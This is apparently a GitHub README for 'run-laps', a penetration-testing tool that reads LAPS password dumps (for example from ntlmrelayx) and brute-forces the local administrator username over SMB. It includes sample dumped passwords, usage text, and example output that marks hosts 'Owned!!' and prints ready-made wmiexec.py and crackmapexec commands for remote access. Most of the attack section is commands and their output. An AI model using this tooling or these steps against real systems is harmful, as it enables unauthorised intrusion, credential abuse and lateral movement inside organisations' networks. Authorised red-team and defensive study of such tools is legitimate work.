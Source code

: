 
<h4 align="center">Run Laps</h4>
<p align="center">
  <a href="https://twitter.com/sho_luv">
  <img src="https://img.shields.io/badge/Twitter-%40sho_luv-blue.svg">
  </a>
</p>

### Why:
Sometimes organizations change the name of their local administrator account. I have twice now been in a scenario where I was able to dump LAPS passwords but did not know the local administrator username because I did not have shell or domain creds yet. This can happen with ldap dump attacks. 

If you have domain creds you can use impacket to lookup the sids with the tool [lookupsid.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/lookupsid.py). 

However if you do not have domain credentials you can always bruteforce the local admin username. 

This tool will help facilitate that effort.

### Example Laps Dump:

This is a tool to parse laps dumps files and test the password against the identified host in the file with a user supplied username. 

LAPS dumps can very from tool to tool, for instance this is what a dump looks like from `ntlmrelayx` with the `--dump-laps` option:

```plain
DN:CN=WINM9132S7S,OU=SHOLUV,OU=ACME_Computers,DC=ACME,DC=local
Password:S;5(7#8{h/i9M7E#
DN:CN=WIN4K6AI09J,OU=SHOLUV,OU=ACME_Computers,DC=ACME,DC=local
Password:Y87]@Y/bW&F5TVKT
DN:CN=WIN4K6AI0OL89J,OU=SHOLUV,OU=ACME_Computers,DC=ACME,DC=local
Password:S;5(7#8{h/i9M7E#

```


# Usage:
```
./runLAPS.py 
usage: runLAPS.py [-h] [-f laps file] [-u username or file] [-v] [-port [destination port]]

This program reads LAPS dumps and attempts to verify them

optional arguments:
  -h, --help            show this help message and exit
  -f laps file          ntlmrelayx laps format file
  -u username or file   username or file to try
  -v, --verbose         view verbose messages

connection:
  -port [destination port]
                        Destination port to connect to SMB Server
root@Id10t:~/work/mydev/run-laps# 

```

If you determine the username is `fido` you can feed this file into run-laps.py

### Example Run:
```
./run-laps.py -f laps-file.txt -u fido
```

### Example output:
```
Testing host: WINDOWS10-B and password: S;5(7#8{h/i9M7E# with username: fido
[*] Windows 10.0 Build 19041 0 (name:WINDOWS10-B) (domain:hackme.local) (signing:False) (SMBv1:False) Owned!!
[*] Local accounts admin rights:
[*] wmiexec.py 'sho_luv:S;5(7#8{h/i9M7E#'@192.168.86.84
[*] crackmapexec smb WINDOWS10 -u sho_luv -p S;5(7#8{h/i9M7E#


Testing host: WINDOWS10-A and password: Y87]@Y/bW&F5TVKT with username: fido
[*] Windows 10.0 Build 19041 0 (name:WINDOWS10-A) (domain:hackme.local) (signing:False) (SMBv1:False)
[*] Local accounts without admin rights:
[*] wmiexec.py 'notadmin:Y87]@Y/bW&F5TVKT'@192.168.86.84
[*] crackmapexec smb WINDOWS10 -u notadmin -p Y87]@Y/bW&F5TVKT

```

